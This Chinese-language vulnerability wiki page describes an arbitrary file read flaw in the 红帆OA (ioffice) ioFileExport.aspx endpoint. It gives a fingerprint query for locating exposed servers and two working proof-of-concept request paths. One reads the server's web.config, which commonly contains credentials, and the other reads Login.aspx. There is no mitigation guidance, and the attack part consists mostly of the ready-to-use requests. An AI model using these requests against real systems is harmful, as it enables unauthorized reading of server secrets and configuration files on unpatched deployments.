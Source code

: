 # 红帆OA ioFileExport.aspx 任意文件读取漏洞

# 红帆OA ioFileExport.aspx 任意文件读取漏洞

## 漏洞描述

红帆OA ioFileExport.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>红帆OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="红帆-ioffice"</a-checkbox></br>

## 漏洞复现

登录页面



![img](/assets/PeiQi-Wiki/img/image-20210722221951490.png)



验证POC, 读取web.config文件

```plain
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/web.config&filename=test.txt&ContentType=application/octet-stream
```

![img](/assets/PeiQi-Wiki/img/image-20210722222340956.png)



```plain
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/Login.aspx&filename=test.txt&ContentType=application/octet-stream
```



![img](/assets/PeiQi-Wiki/img/image-20210722222608934.png)